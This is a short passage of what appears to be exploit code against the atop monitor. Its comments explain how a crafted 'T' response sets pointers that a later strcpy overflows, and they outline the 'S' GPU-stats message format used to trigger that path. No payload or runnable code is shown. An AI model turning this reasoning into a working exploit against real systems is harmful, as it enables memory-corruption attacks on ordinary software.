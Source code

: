             # So, the 'S' response just needs to be well-formed enough to trigger the loop
            # that processes GPU stats, which will then call `strcpy` on the stored pointers.
            
            # Let's send a minimal 'S' response for one GPU.
            # The actual content of the 'S' response doesn't need to be malicious in terms of length,
            # as the overflow is triggered by the *pointers* set by the 'T' response.
            
            # Example 'S' data format (simplified, based on atop source):
            # <num_gpus (4 bytes)>
            # For each GPU:
            #   <gpu_id (4 bytes)>
            #   <util_gpu (4 bytes)>
            #   <util_mem (4 bytes)>
            #   <mem_total (8 bytes)>
            #   <mem_used (8 bytes)>
            #   <temp (4 bytes)>
            #   <power (4 bytes)>
            #   <clocks_sm (4 bytes)>
            #   <clocks_mem (4 bytes)>
            